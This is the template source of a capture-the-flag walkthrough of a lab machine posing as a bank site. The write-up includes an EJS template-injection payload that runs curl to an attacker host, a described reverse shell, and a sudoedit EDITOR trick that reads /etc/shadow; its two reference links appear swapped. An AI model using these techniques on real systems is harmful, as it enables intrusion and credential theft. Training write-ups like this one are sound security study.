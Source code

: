{% from "console.html" import console %}
{% from "image.html" import image %}
{% from "text.html" import text %}
{% from "code.html" import code %}
{% from "list.html" import list %}
{% from "link.html" import link %}
{% from "header.html" import header %}
{% from "navigational.html" import navi %}

<div id="imageModal" class="transition-opacity ease-in-out duration-200 z-50 fixed inset-0 bg-black bg-opacity-75 flex justify-center items-center hidden opacity-0" onclick="closeModal()">
    <img class="max-w-full max-h-full object-contain" id="modalImage" />
</div>

{{header("Enumeration", "enumeration")}}

{{text("We begin by performing a port scan.")}}

{{console("nmap -T5 -p- 10.10.103.231", "Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-09 10:19 EST
Warning: 10.10.103.231 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.103.231
Host is up (0.086s latency).
Not shown: 65151 closed tcp ports (reset), 382 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 300.50 seconds")}}

{{text("Only two ports are open:")}}

{{list(['22 (SSH)', '80 (HTTP)'])}}

{{text("Navigating to <code class='bg-gray-300 rounded-md px-1'>http://10.10.103.231</code> redirects to <code class='bg-gray-300 rounded-md px-1'>http://cyprusbank.thm</code>, so we add an entry for this domain in the <code class='bg-gray-300 rounded-md px-1'>/etc/hosts</code> file.") }}

{{text("Now, visiting <code class='bg-gray-300 rounded-md px-1'>http://cyprusbank.thm</code> displays the following page.")}}

{{image("../../static/images/Whiterose/000001.jpg")}}

{{text("Running Gobuster for directory enumeration reveals no additional directories, so we proceed with subdomain enumeration.")}}

{{console("ffuf -u 'http://cyprusbank.thm/' -H 'Host: FUZZ.cyprusbank.thm' -w /usr/share/wordlists/dirb/common.txt -fw 1", "...
Admin                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 107ms]
ADMIN                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 106ms]
admin                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 107ms]
www                     [Status: 200, Size: 252, Words: 19, Lines: 9, Duration: 73ms]
:: Progress: [4614/4614] :: Job [1/1] :: 531 req/sec :: Duration: [0:00:12] :: Errors: 0 ::") }}

{{text("Adding the subdomains <code class='bg-gray-300 rounded-md px-1'>www</code> and <code class='bg-gray-300 rounded-md px-1'>admin</code> to our hosts file, we find that only <code class='bg-gray-300 rounded-md px-1'>admin</code> leads to something interesting.")}}

{{image("../../static/images/Whiterose/000003.jpg")}}

{{header("Logging in as Olivia Cortez", "logging-in-as-olivia-cortez")}}

{{text("Using the credentials <code class='bg-gray-300 rounded-md px-1'>Olivia Cortez:olivi8</code> provided in the challenge, we log in successfully.")}}

{{text("The dashboard displays recent transactions and user accounts, including a user named <code class='bg-gray-300 rounded-md px-1'>Tyrell Wellick</code>, whose phone number is required.")}}

{{image("../../static/images/Whiterose/000004.jpg")}}

{{text("Unable to retrieve relevant information from <code class='bg-gray-300 rounded-md px-1'>search</code> and lacking permissions for <code class='bg-gray-300 rounded-md px-1'>settings</code>, we proceed to <code class='bg-gray-300 rounded-md px-1'>messages</code>.")}}

{{header("Logging in as Gayle Bev", "logging-in-as-gayle-bev")}}

{{text("The messages page is an administrator message board.")}}

{{image("../../static/images/Whiterose/000005.jpg")}}

{{text("Though the messages contain nothing useful, we notice a URL parameter <code class='bg-gray-300 rounded-md px-1'>c</code> that might allow us to do something.")}}

{{text("Posting a new message removes the previous one, so we can assume this parameter is used to control how many messages get displayed. Adjusting <code class='bg-gray-300 rounded-md px-1'>c=5</code> to <code class='bg-gray-300 rounded-md px-1'>c=100</code> displays prior messages.")}}

{{image("../../static/images/Whiterose/000006.jpg")}}

{{text("This reveals new credentials <code class='bg-gray-300 rounded-md px-1'>Gayle Bev:[REDACTED]</code>, which grant us access to <code class='bg-gray-300 rounded-md px-1'>Tyrell Wellick's</code> phone number, marking the first flag.")}}

{{header("Reverse Shell", "reverse-shell")}}

{{text("Navigating further, we now have access to the <code class='bg-gray-300 rounded-md px-1'>settings</code> page.")}}

{{image("../../static/images/Whiterose/000007.jpg")}}

{{text("On the settings page, we find an interface for changing passwords by username. Initial SQL injection attempts fail, but error messages in <strong>Burp</strong> indicate the use of the <strong>EJS</strong> templating engine.")}}

{{image("../../static/images/Whiterose/000008.jpg")}}

{{text("We explore potential server-side template injection (<strong>SSTI</strong>) vulnerabilities in EJS, guided by an article.")}}

{{link("https://www.vicarius.io/vsociety/posts/cve-2023-22809-sudoedit-bypass-analysis", "https://www.vicarius.io/vsociety/favicon.svg", "CVE-2023-22809: Sudoedit Bypass - Analysis")}}

{{text("Using a crafted payload, <code class='bg-gray-300 rounded-md px-1'>name=test&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('curl 10.9.2.82');s</code>, we confirm SSTI exploitation.")}}

{{image("../../static/images/Whiterose/000009.jpg")}}

{{text("Our next objective is to gain a reverse shell.")}}

{{text("After trying several reverse shell payloads from <code class='bg-gray-300 rounded-md px-1'>revshells.com</code>, a base64-encoded BusyBox reverse shell proves successful.")}}

{{text("Setting up a netcat listener, we execute the payload through bash to gain shell access.")}}

{{header("Privilage Escalation", "priv-esc")}}

{{image("../../static/images/Whiterose/000010.jpg")}}

{{text("With shell access, we stabilize the connection for smoother navigation.")}}

{{image("../../static/images/Whiterose/000011.jpg")}}

{{text("Inside <code class='bg-gray-300 rounded-md px-1'>/home/web</code>, we retrieve the <code class='bg-gray-300 rounded-md px-1'>user.txt</code> flag.")}}

{{image("../../static/images/Whiterose/000012.jpg")}}

{{text("While looking around for privilage escalation vectors, we run <code class='bg-gray-300 rounded-md px-1'>sudo -l</code> and see that we are able to run <code class='bg-gray-300 rounded-md px-1'>sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm</code> as the root user.")}}

{{text("We can't find anything about <code class='bg-gray-300 rounded-md px-1'>sudoedit</code> on <code class='bg-gray-300 rounded-md px-1'>https://gtfobins.github.io/</code>, but we come across this article.")}}

{{link("https://github.com/mde/ejs/issues/720", "https://github.com/favicon.ico", "EJS, Server side template injection ejs@3.1.9")}}

{{text("By using <code class='bg-gray-300 rounded-md px-1'>export EDITOR='vi -- /etc/shadow'</code> we will make <code class='bg-gray-300 rounded-md px-1'>vi</code> open the <code class='bg-gray-300 rounded-md px-1'>/etc/shadow</code> file when <code class='bg-gray-300 rounded-md px-1'>sudoedit</code> is used.")}}

{{text("We now run <code class='bg-gray-300 rounded-md px-1'>sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm</code> and are able to read the <code class='bg-gray-300 rounded-md px-1'>/etc/shadow</code>")}}

{{console("sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm", "root:[REDACTED]
daemon:*:18885:0:99999:7:::
bin:*:18885:0:99999:7:::
sys:*:18885:0:99999:7:::
...")}}

{{text("Let's modify the <strong>export</strong> to read our flag.")}}

{{text("By using <code class='bg-gray-300 rounded-md px-1'>export EDITOR='vi -- /root/root.txt'</code> and re-running the command, we should be able to read our flag.")}}

{{console("sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm", "THM{[REDACTED]}
~                                                                               
~                                                                               
~                                                                               
...")}}

<script>
    function activate(element) {
        document.querySelectorAll("ul li").forEach((item) => {
            item.classList.remove("border-blue-500", "text-blue-400");
            item.classList.add("border-gray-400", "text-gray-700");
        });

        element.classList.remove("border-gray-400", "text-gray-700");
        element.classList.add("border-blue-500", "text-blue-400");
    }

document.addEventListener("DOMContentLoaded", () => {
    const options = {
        root: null,
        rootMargin: "0% 0% -75% 0%",
        threshold: 0.1,
    };

    const observer = new IntersectionObserver((entries) => {
        entries.forEach((entry) => {
            console.log(entry)
            const navItem = document.querySelector(`a[href="#${entry.target.id}"]`)?.parentElement;

            if (entry.isIntersecting && entry.target != navItem) {
                navItem?.classList.add("border-blue-500", "text-blue-400");
                navItem?.classList.remove("border-gray-400", "text-gray-700");
            } else {
                navItem?.classList.remove("border-blue-500", "text-blue-400");
                navItem?.classList.add("border-gray-400", "text-gray-700");
            }
        });
    }, options);

    const sections = document.querySelectorAll("section[id]");
    console.log(sections)
    sections.forEach((section) => {
        observer.observe(section);
    });

});

    function openModal(imageSrc) {
        const modal = document.getElementById("imageModal");
        const modalImage = document.getElementById("modalImage");

        modal.classList.remove("hidden");
        setTimeout(() => {
            modal.classList.remove("opacity-0");
            modal.classList.add("opacity-100");
        }, 1)
        modalImage.src = imageSrc;
    }

    function closeModal() {
        const modal = document.getElementById("imageModal");

        modal.classList.remove("opacity-100");
        modal.classList.add("opacity-0");
        setTimeout(() => {
            modal.classList.add("hidden");
        }, 201);
    }

    function copyCode(button) {
        const codeBlock = button.closest('.code').querySelector('code');
        
        navigator.clipboard.writeText(codeBlock.innerText).then(() => {
            button.innerHTML = `
            <svg class="size-6 text-green-600 w-8 h-8 hover:bg-gray-300 rounded" xmlns="http://www.w3.org/2000/svg" fill="none" viewBox="0 0 24 24" stroke-width="1.5" stroke="currentColor">
                <path stroke-linecap="round" stroke-linejoin="round" d="m4.5 12.75 6 6 9-13.5" />
            </svg>
            `;
            setTimeout(() => {
                button.innerHTML = `
                    <svg class="w-8 h-8 text-gray-800 dark:text-white hover:bg-gray-300 rounded copyButton" xmlns="http://www.w3.org/2000/svg" width="24" height="24" fill="currentColor" viewBox="0 0 24 24">
                        <path fill-rule="evenodd" d="M18 3a2 2 0 0 1 2 2v10a2 2 0 0 1-2 2h-1V9a4 4 0 0 0-4-4h-3a1.99 1.99 0 0 0-1 .267V5a2 2 0 0 1 2-2h7Z" clip-rule="evenodd"/>
                        <path fill-rule="evenodd" d="M8 7.054V11H4.2a2 2 0 0 1 .281-.432l2.46-2.87A2 2 0 0 1 8 7.054ZM10 7v4a2 2 0 0 1-2 2H4v6a2 2 0 0 0 2 2h7a2 2 0 0 0 2-2V9a2 2 0 0 0-2-2h-3Z" clip-rule="evenodd"/>
                    </svg>
                `;
            }, 2000);
        });
    }
</script>
